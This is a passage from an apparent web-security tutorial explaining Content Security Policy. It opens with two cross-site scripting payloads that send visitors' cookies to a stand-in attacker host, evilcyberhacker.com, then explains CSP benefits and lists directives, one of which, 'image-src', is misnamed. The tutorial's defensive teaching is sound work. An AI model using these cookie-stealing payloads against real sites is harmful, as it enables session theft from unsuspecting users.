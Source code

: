 Which means you can send the following link to a user, and they will be redirected to evilcyberhacker.com and
send along their cookies in the URL, for the attacker to find in their server logs.

```
http://hack-yourself-first.com/Search?searchTerm=');location.href='http://evilcyberhacker.com?cookies='%2BencodeURIComponent(document.cookie);//'
```

The only reason this attack is possible, is because the browser loads and executes the inline script
tag. Another XSS attack could be adding a comment with this as the comment body:

```html
<script src="http://evilcyberhacker.com/stealcookies.js" /> Wow! What a cool website.
```

Then when a user visits the page, the browser will automatically load and run `stealcookies.js`,
which doesn't sound plesant.


## How will it make my site more secure?

So you're probably thinking that you can just sanitise your input and output and then you're not
vulnerable to XSS attacks, meaning you don't need to worry about a CSP. And you would be almost right!
Even if your site is entirely rock-solid and it's impossible for someone to trick a browser
viewing your site into loading an untrusted script, there are still issues that a CSP will solve:

1. Once your site gets big enough, it's hard to ensure that every single input/output is sanitised
   correctly. Both the above examples must be sanitised in different ways, because they're loaded in
   different contexts (javascript vs. html). __The larger your site gets, the more likely it is that
   you'll miss something, leaving your users vulnerable__.
2. Your users will have all sorts of dodgey browser extensions installed, from free VPN's such as
   Hola to extensions that allow you to stream torrent videos while they download. These extensions
   has almost unlimited access to the DOM.

A properly implemented CSP is essentially a blanket ban on not only XSS attacks, but any attack that
relies on the browser loading untrusted assets. In order for an attacker to compromise your CSP
protected site, they must first gain access to the approved sources you list in your policy.

Yes, you should still write secure code and not leave XSS flaws everywhere. But adding a good CSP
closes off extra avenues of attack (such as dodgy browser extensions) and also covers your back if
you slip up and don't sanitise some output.


### CSP basics

A CSP header contains a list of "directives", with each directive holding a list trusted sources.
Some of the common directives are:

- `script-src`  - where we can load javascript from
- `style-src`   - where we can load CSS from
- `image-src`   - where we can load images from
- `font-src`    - where we can load fonts from
- `connect-src` - where scripts can load urls from (ie. Fetch, XMLHttpRequest, etc)
- `default-src` - applied to every directive not explicitly specified
- `block-all-mixed-content`   - prevents assets being loaded over HTTP
- `upgrade-insecure-requests` - forces assets to be loaded over HTTPS
- `report-uri` - a location to report all policy violations
